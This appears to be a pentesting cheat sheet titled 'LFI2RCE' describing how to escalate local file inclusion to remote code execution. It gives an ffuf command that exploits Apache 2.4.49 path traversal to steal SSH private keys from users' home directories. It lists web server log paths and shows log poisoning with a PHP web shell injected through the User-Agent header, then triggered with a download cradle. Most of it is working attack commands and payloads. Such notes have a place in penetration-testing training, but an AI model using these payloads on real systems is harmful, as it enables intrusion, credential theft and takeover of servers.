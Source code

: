 # LFI2RCE

### Via SSH Private Keys

We first need to grep `/etc/passwd` for home directories and create the wordlist `home_dirs.txt` for them.

We can then use the following wordlist to fuzz default private key names that SSH looks for.

**ssh_key_formats.txt**

```bash
id_rsa
id_ecdsa
id_ecdsa_sk
id_ed25519
id_ed25519_sk
```

Example command with ffuf (exploiting apache 2.4.49):

```powershell
ffuf -w home_dirs.txt:F1,ssh_key_formats.txt:F2 -u "http://$IP/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/F1/F2"
```

### Via Log Files

We can first use LFI to inspect the following paths:

```bash
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```

If we view these files and see values we control inside of them (such as the `User-Agent` header), we can gain RCE by injecting a PHP web route into said value.

In the case `User-Agent` is viewable, we can add the following PHP code to our `User-Agent` header when simply accessing the site normally:

```php
<?php system($_GET['cmd']); ?>
```

We can then make a request to the log files using the LFI to see if our injected PHP code is being rendered.

If the PHP code is not viewable, and only a space is seen, we know that PHP is being evaluated by the web server.

We can then obtain RCE by adding the following to our LFI request:

```powershell
&cmd=$CRADLE
```
